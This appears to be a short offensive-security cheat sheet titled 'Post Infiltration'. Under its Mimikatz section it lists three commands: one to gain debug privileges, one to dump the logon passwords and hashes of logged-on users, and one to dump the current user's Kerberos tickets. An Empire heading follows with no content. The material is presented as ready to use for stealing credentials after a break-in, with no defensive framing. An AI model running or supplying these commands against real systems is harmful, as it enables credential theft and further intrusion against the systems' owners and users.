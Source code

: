 # Post Infiltration

## Mimikatz

#### Increase process authority 

```text
privilege::debug
```

#### Dump hashes of logged on users 

```text
sekurlsa::logonpasswords
```

#### Dump ticket of current user 

```text
sekurlsa::tickets
```

## Empire



